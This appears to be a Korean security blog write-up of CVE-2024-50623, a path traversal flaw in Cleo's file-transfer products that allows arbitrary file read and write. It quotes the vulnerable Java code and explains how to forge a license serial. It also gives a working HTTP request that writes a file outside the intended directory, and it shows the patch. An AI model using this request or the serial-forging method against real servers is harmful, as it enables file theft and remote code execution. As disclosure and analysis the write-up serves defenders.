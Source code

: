 ```yaml
---
title: "[하루한줄] CVE-2024-50623 : Cleo Harmony, VLTrader, LexiCom의 임의 파일 읽기/쓰기 취약점"
author: pwndorei
tags: [Cleo, Path Traversal, Arbitrary File Read, Arbitrary File Write, RCE, pwndorei]
categories: [1day1line]
date: 2024-12-14 21:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[https://labs.watchtowr.com/cleo-cve-2024-50623/](https://labs.watchtowr.com/cleo-cve-2024-50623/)

## Target

- Cleo Harmony < 5.8.0.21
- Cleo VLTrader < 5.8.0.21
- Cleo LexiCom < 5.8.0.21

## Explain

Cleo의 파일 전송 소프트웨어인 Harmony,  VLTrader, LexiCom에서 임의 파일 읽기/쓰기 취약점이 발생해 임의 코드 실행이 가능했습니다.

취약점은 클러스터 노드 간의 파일 동기화를 처리하는 엔드포인트인 `/Synchronization`에서 발생했고 이는 Syncer.java에 구현되어 있습니다.

먼저 아래는 `/Synchronization`으로 들어온 HTTP 요청을 핸들링하는 `syncIn` 메소드의 코드 중 일부입니다.

```java
public int syncIn(HttpServletRequest httpRequest, HttpServletResponse httpResponse) {
        int statusCode = 500;
        InputStream in = null;
        int len = 0;

        try {
            in = httpRequest.getInputStream();
            len = httpRequest.getContentLength();
            boolean found = false;
            Enumeration headers = httpRequest.getHeaderNames();

            while(headers.hasMoreElements()) {
                String header = (String)headers.nextElement();
                if (header.equalsIgnoreCase(SYNC_HEADER)) {
                    found = true;
                    String value = httpRequest.getHeader(header);
                    String serialNumber = getDecodedParameterValue(value, "l", true);
                    if (hasToken(value, START)) {
                        // ... omitted ...
                        break;
                    }

                    if (!hasToken(value, ADD) && !hasToken(value, UPDATE) && !hasToken(value, REMOVE)) { 
```

가장 먼저 요청 헤더를 파싱하는 것을 볼 수 있고 아래와 같은 형식의 `SYNC_HEADER`(”VLSync”) 라는 이름의 헤더를 찾으면 이를 파싱해서 command, `l`, `v` 등의 파라미터를 가져옵니다.

```
VLSync: Retrieve;l=Ab1234-RQ0258;n=VLTrader;v=5.7.0.0
```

이 중에서도 `l`은 라이선스의 시리얼 넘버로 아래의 `IslValid` 메소드를 통해 유효성을 검사합니다. 하지만 유효성을 검사하는 코드는 그리 복잡하지 않기 때문에 `[1]`의 `License.scramble(serialNumber.substring(0, 6)).equals(serialNumber.substring(7))`를 만족하는 시리얼 넘버를 직접 생성해서 사용할 수 있습니다.

```java
String serialNumber = getDecodedParameterValue(header, VLAdminCLI.LIST_FLAG, true);

if (!islValid(serialNumber) || ... ) {
            statusCode = 403;
...
protected static boolean islValid(String serialNumber) {
     if (serialNumber == null) {
         return false;
      } else if (serialNumber.length() == 13 && serialNumber.charAt(6) == '-') {
          if (!License.scramble(serialNumber.substring(0, 6)).equals(serialNumber.substring(7))) {//[1]
              return false;
          }
      }
      // ... further code omitted ..
    }
    
public static String scramble(String serial) {
        int shift = 0;

        for(int i = 0; i < serial.length(); ++i) {
            shift ^= serial.charAt(i);
        }

        StringBuffer sb = new StringBuffer(serial);
        sb.setCharAt(0, shiftLetter(Character.toUpperCase(sb.charAt(0)), shift + 4));
        sb.setCharAt(1, shiftLetter(Character.toUpperCase(sb.charAt(1)), shift + 2));
        sb.setCharAt(2, shiftNumber(sb.charAt(2), shift));
        sb.setCharAt(3, shiftNumber(sb.charAt(3), shift + 1));
        sb.setCharAt(4, shiftNumber(sb.charAt(4), shift + 3));
        sb.setCharAt(5, shiftNumber(sb.charAt(5), shift + 5));
        return sb.toString();
    }
```

이후 command에 따라 다른 동작이 호출되며 임의 파일 읽기는 `Retrieve` command를 처리하는 아래의 `retreive` 메소드에서 발생합니다.

```c
    private int retrieve(String header, HttpServletResponse httpResponse) {
        String serialNumber = getDecodedParameterValue(header, VLAdminCLI.LIST_FLAG, true);
        // ... omitted ...
        String path = fixPath(getParameterValue(header, "path", false));//[2]
        // ... omitted ...
        if (statusCode == 200) {
            try {
                byte[] bytes = fetchLocalFile(path, LexBean.decrypt(tempPassphrase));
                fireRetrieveEvent(path);
                statusCode = 200;
                httpResponse.setStatus(200);
                httpResponse.setContentLength(bytes.length);
                httpResponse.setHeader("Connection", "close");
                ServletOutputStream outputStream = httpResponse.getOutputStream();
                outputStream.write(bytes);
                outputStream.close();
            } catch (FileNotFoundException e) {
                statusCode = 404;
            } catch (Exception ex) {
                // ... omitted ...
            }
        }
        return statusCode;
    }
```

`retreive`는 VLSync(`SYNC_HEADER`) 헤더에서 `path` 파라미터를 가져와서 `fetchLocalFile`로 `path`가 지정한 경로에 있는 파일 데이터를 읽고 이를 http 응답으로 반환합니다.

이때 `path`의 값을 검사하지 않고 사용했기 때문에 `..\`를 포함시키면 path traversal이 발생했고 아래처럼 임의의 파일을 읽는 것이 가능했습니다.

![image.png](2024-12-14/image.png)

다음으로 임의 파일 쓰기는 `ADD` 커맨드의 처리 과정에서 호출되는 `fileIn` 메소드에서 발생했습니다

```java
private int fileIn(String header, InputStream in, int length) throws Exception {
        int statusCode = 200;
        String serialNumber = getDecodedParameterValue(header, "l", true);
        // ... omitted ...
        String path = this.fixPath(getParameterValue(header, "path", false));
        // ... omitted ...
        if (file.exists() && !file.canWrite()) {
            statusCode = 403;
        } else {
```

`retreive`와 동일하게 `path` 파라미터를 파싱하고 이 경우에는 쓸 파일의 경로를 지정하게 됩니다. 이후 파일이 이미 존재하는지, 해당 경로에 쓰는 것이 가능한지를 확인하고 가상 디렉터리 체크를 모두 통과하면 아래의 코드가 실행되면서 HTTP 요청 바디의 데이터가 지정된 경로의 파일에 쓰이게 됩니다.

```java
OutputStream out = LexIO.getFileOutputStream(otherFile, false, true, false);
if (length > 0) {
  LexiCom.copy((InputStream)in, out);
}
((InputStream)in).close();
out.close();
```

이때 임의 파일 읽기와 마찬가지로 path traversal이 발생하면서 아래와 같은 HTTP 요청으로 임의 파일 쓰기가 가능했습니다.

```java
POST /Synchronization HTTP/1.1
Host: 192.168.1.18:5080
VLSync: ADD;l=Ab1234-RQ0258;n=VLTrader;v=5.7.0.0;a=192.168.1.100;po=5080;s=True;b=False;pp=myEncryptedPassphrase;path=..\..\..\test.txt
Content-Type: multipart/form-data; boundary=-----1337
Content-Length: 10

watchTowr is k3wl
```

RCE는 임의 파일 쓰기를 통해 Startup 폴더 등에 파일을 생성하는 것을 통해 가능했고 취약점은 패치로 추가된 아래의 `validatePath`가 `path` 파라미터의 데이터를 검사하면서 발생하지 않게 되었습니다.

```java
protected int validatePath(String path) {
    try {
        if (!Strings.isNullOrEmpty(path)) {
            URI uri = new URI(path);
            if (!Strings.isNullOrEmpty(uri.getScheme())) {
                return ServiceException.REMOTE_IO_EXCEPTION;
            }
        }
    } catch (URISyntaxException e) {
    }
    String path2 = FilenameUtils.normalize(path);
    if (Strings.isNullOrEmpty(path2)) {
        return ServiceException.REMOTE_IO_EXCEPTION;
    }
    String relativePath = LexIO.getRelative(path2);
    if (relativePath.startsWith("/") || relativePath.startsWith("\\") || new File(path2).isAbsolute()) {
        return ServiceException.REMOTE_IO_EXCEPTION;
    }
    String relativePath2 = relativePath.toLowerCase().replace("\\", "/");
    for (String rootpath : UNPROTECTED_PATHS) {
        if (relativePath2.startsWith(rootpath)) {
            return 200;
        }
    }
    for (String rootpath2 : PROTECTED_PATHS) {
        if (relativePath2.startsWith(rootpath2)) {
            return ServiceException.REMOTE_IO_EXCEPTION;
        }
    }
    return 200;
}
```